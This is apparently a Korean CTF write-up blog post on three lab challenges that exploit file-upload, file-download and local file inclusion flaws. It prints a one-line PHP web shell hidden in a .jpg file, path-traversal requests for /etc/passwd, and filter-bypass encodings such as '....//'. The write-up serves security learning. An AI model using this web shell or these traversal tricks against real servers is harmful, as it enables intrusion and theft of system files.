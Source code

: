 ```yaml
---
title: "File Download & LFI"
date: 2025-07-25
layout: single
toc: true
toc_label: "File Download & LFI"
toc_icon: "book"
toc_sticky: true
tags: [web, file download, lfi, hacking]
header:
  teaser: /assets/images/file-download.png
---
```


# 개요

이 페이지는 File Download 기능과 LFI(Local File Inclusion) 취약점을 활용한 CTF 문제 풀이 기록입니다.

실습에서는 파일 다운로드 기능의 파라미터 조작을 통해 서버 내 임의 파일을 열람하거나, LFI를 통해 PHP 코드 실행 흐름으로 확장하는 과정을 다룹니다.

---

# 문제 풀이 정리

## Web Shell

![글쓰기](/assets/screenshots/file-download-lfi/web_shell_create.png)

대상 웹 애플리케이션에는 게시글 작성 기능이 있으며, 이 중 파일 업로드 입력란이 존재한다.

![업로드 실패](/assets/screenshots/file-download-lfi/web_shell_upload_fail.png)

위와 같이 `.php` 확장자를 가진 파일을 업로드할 경우, **업로드가 허용되지 않는 파일 형식입니다.** 라는 메시지가 출력되며 업로드가 차단된다.

후에 Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등 다양한 우회 기법을 시도하였으나, 모두 서버 측 필터링에 의해 차단되었다.

![업로드 성공](/assets/screenshots/file-download-lfi/web_shell_upload.png)

서버가 `.php` 확장자의 파일 업로드를 차단하고 있기 때문에, 우회 방식으로 `.jpg` 확장자의 파일에 PHP 코드를 삽입한 뒤 업로드하였다.

**페이로드:**
```php
<?php echo system($_GET['cmd']); ?>
```

이후 **LFI 취약점**을 통해 해당 파일이 `include` 되도록 유도함으로써, 서버가 이를 PHP로 처리하게 만들고 코드 실행을 시도한다.

![의심 발견](/assets/screenshots/file-download-lfi/web_shell_parameter.png)

Burp Suite를 활용하여 웹 여러 요청을 확인한 결과,

`theme=modern.php`라는 값이 클라이언트 → 서버로 전송되며, 응답에서도 해당 테마 이름이 다시 응답에서도 해당 테마 이름이 다시 `Set-Cookie` 에 포함되는 구조를 확인하였다.

이로 인해 서버 측에서 `theme` 파라미터를 기반으로 동적으로 PHP 파일을 `include` 하거나 로딩할 가능성이 있는 것으로 보여져,
업로드한 파일에 대한 경로를 지정함으로써 **LFI 공격**이 가능한지 테스트를 진행하였다.

![/etc/passwd](/assets/screenshots/file-download-lfi/web_shell_passwd.png)

`theme` 파라미터에 `../../../../etc/passwd` 값을 삽입한 결과, 응답 본문에 리눅스 시스템의 `/etc/passwd` 파일 내용이 출력되었다.

이를 활용하여 업로드된 웹쉘 파일(`shell.jpg`)의 경로를 LFI 지점에 삽입하여 포함시키는 방식으로 코드 실행을 시도한다.

![공격 성공](/assets/screenshots/file-download-lfi/web_shell_success.png)

`page=mypage&cmd=ls` 파라미터를 통해 쉘 명령이 정상적으로 실행되었으며, 서버 내부의 디렉토리 및 파일 목록이 출력되는 것을 확인할 수 있었다.

**이제 시스템 내에 저장된 플래그 파일의 위치를 찾기 위해 다음 명령어를 실행하였다:**

```bash
find / -name "flag.txt" 2>/dev/null
```

`flag.txt` 파일의 위치를 확인한 뒤, `cat` 명령어를 통해 해당 파일의 내용을 출력하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/web_shell_flag.png)

이렇게 최종적으로 플래그를 획득 하였다.

---

## Get Flag File

![글 쓰기](/assets/screenshots/file-download-lfi/get_file1_create.png)

이번에도 파일 업로드 기능이 존재하나, `.php`를 포함한 모든 스크립트 계열 확장자에 대해 업로드가 차단되어 있으며, 

확장자 우회 기법(예: Content-Type 변경, 다중 확장자 우회, MIME 타입 조작 등) 역시 모두 필터링되는 강력한 보안 정책이 적용되어 있는 상태이다.

![다운로드 경로](/assets/screenshots/file-download-lfi/get_file1_path.png)

Burp Suite를 이용해 업로드된 게시글의 응답 데이터를 분석한 결과, HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있는 것을 확인하였다.

위 경로를 이용하여 접속을 한 후 Burp Suite로 분석을 해보았다.

![다운로드 경로 2](/assets/screenshots/file-download-lfi/get_file1_path2.png)

Burp Suite를 통해 `download` 파라미터에 업로드된 파일 경로(`/var/www/html/uploads/4_shell.jpg`)를 직접 요청한 결과, HTTP 응답 본문에 파일 내부에 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있는 것을 확인하였다.

이로 인해 서버가 해당 파일을 PHP로 실행하지 않고 단순 **텍스트 파일로 처리하여 반환**하고 있다는 점을 알 수 있었으며, 이는 곧 파일 내의 임의 코드 노출이 가능하다는 것을 의미한다.

첫 번째 시도로 `/etc/passwd` 경로를 포함시켜 시스템 내 파일 접근 가능성을 검증하였다.

**Burp Suite를 이용하여 다음과 같은 요청을 전송하였다:**

```yaml
GET /index.php?page=download&filePath=../../../../etc/passwd
```

![/etc/passwd](/assets/screenshots/file-download-lfi/get_file1_passwd.png)

그 결과, 서버는 `HTTP 200 OK` 응답과 함께 `/etc/passwd` 파일의 내용을 반환하였다. 

이는 서버 측에서 사용자 입력에 대해 별도의 경로 제한이나 필터링 없이 파일을 읽고 응답으로 전달하고 있음을 의미하며, **명확한 LFI 취약점(Local File Inclusion)** 으로 판단된다.

앞선 LFI 취약점을 활용해, 이번에는 웹 애플리케이션 루트 디렉터리에 존재하는 `flag.txt` 파일을 직접 열람하여 내부에 포함된 플래그 값을 확인하고자 하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/get_file1_flag.png)

이렇게 웹 애플리케이션 내부에 존재하던 `flag.txt` 파일에 접근하고, 최종적으로 플래그 값을 성공적으로 획득하였다.

---

## Get Flag File 2

이번 문제 역시 이전 문제와 유사하게, 다운로드 기능을 기반으로 한 LFI 취약점(Local File Inclusion) 취약점을 중심으로 구성되어 있다.

![다운로드 경로](/assets/screenshots/file-download-lfi/get_file2_path.png)

Burp Suite를 통해 응답 본문을 분석한 결과, 이전 문제와 똑같이 HTML 본문 내에 첨부파일의 실제 다운로드 경로(`index.php?page=download&filePath=...`)가 명확하게 노출되어 있었고.

![공격 성공](/assets/screenshots/file-download-lfi/get_file2_success.png)

파일이 다운로드 되는 파일 경로를 통해 Burp Suite로 분석 결과, 해당 파일의 응답 본문에는 삽입한 PHP 코드(`<?php echo system($_GET['cmd']); ?>`)가 그대로 포함되어 있었다.

이를 통해 서버가 해당 파일을 실행하지 않고 단순히 텍스트 파일로 반환하고 있음을 확인하였으며, 이를 기반으로 `/etc/passwd`와 같은 시스템 파일에 대한 접근이 가능한지 여부를 테스트하였다.

![/etc/passwd](/assets/screenshots/file-download-lfi/get_file2_passwd.png)

기본적인 `../` 상대 경로를 통한 디렉터리 상위 이동은 서버 측 필터링으로 인해 차단되었다.

이에 따라 다양한 URL 인코딩 기반 우회 기법을 적용하여 경로 우회 가능성을 테스트하였다.

**테스트한 우회 기법은 다음과 같다:**
 - `%252e` → `%2e`로 디코딩되는 Double Encoding
 - `....//` → 중첩 경로를 통한 우회
 - `%2e%2e%2f`, `..%2f..%2f..%2fetc/passwd` 등

이 중, `....//` 방식이 서버에서 유효하게 처리되어, 다음과 같은 요청으로 LFI에 성공하였다.

앞서 확인한 URL 인코딩 기반의 디렉터리 우회 기법(`....//`)을 활용하여, 웹 서버 루트 디렉터리에 존재하는 `flag.txt` 파일에 대한 직접 접근을 시도하였다.

![플래그 획득](/assets/screenshots/file-download-lfi/get_file2_flag.png)
 
최종적으로 `flag.txt` 파일 내 플래그를 획득함으로써, 해당 문제를 완전히 해결하였다.
